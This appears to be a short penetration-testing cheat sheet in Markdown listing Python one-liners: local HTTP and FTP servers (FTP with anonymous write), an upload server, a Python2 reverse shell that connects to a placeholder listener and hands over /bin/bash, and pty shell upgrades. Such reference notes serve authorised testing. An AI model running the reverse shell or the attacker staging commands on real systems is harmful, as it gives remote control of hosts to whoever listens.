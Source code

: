 ```yaml
---
title : "Python"
# pre : ' '
description : "Python is a programming language that lets you work quickly and integrate systems more effectively."
date : 2022-12-05T09:22:16+01:00
# hidden : true
# draft : true
weight : 1400
tags : ['Python2', 'Python3', 'FTP', 'HTTP']
---
```


---

Python is a programming language that lets you work quickly and integrate systems more effectively.

## Python Web Server

Serving files with local web server.

Python2

```plain
python2 -m SimpleHTTPServer 9090
```

Python3

```plain
python3 -m http.server 9090
```

## Python2/3 FTP Server

Requires: `python2 -m pip install pyftpdlib` / `python3 -m pip install pyftpdlib`

**Note:** By default this will allow *anonymous* login. To use username/password based authentication, please use the `-u USERNAME` and `-P PASSWORD` flags.

```plain
python2 -m pyftpdlib -p 21 -w
```

```plain
python3 -m pyftpdlib -p 21 -w
```

## Python3 Web Server with Upload

Download script [here](https://gist.github.com/crypt0rr/19f009c90205697ef26ab1fd82c26903).

```plain
python3 HTTPServerWithUpload.py -p 80
python3 HTTPServerWithUpload.py --port 80
```

## Python2 One-Liner Reverse Shell

```plain
python2.7 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<LISTERNER-IP>>",<<LISTERNER-PORT>>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## Upgrade to Interactive Python Shell

Python2

```plain
python -c 'import pty; pty.spawn("/bin/bash")'
```

Python3

```plain
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## URL list

- [Python.org](https://www.python.org/)
- [Pythonium.net - Python tools](https://pythonium.net/)
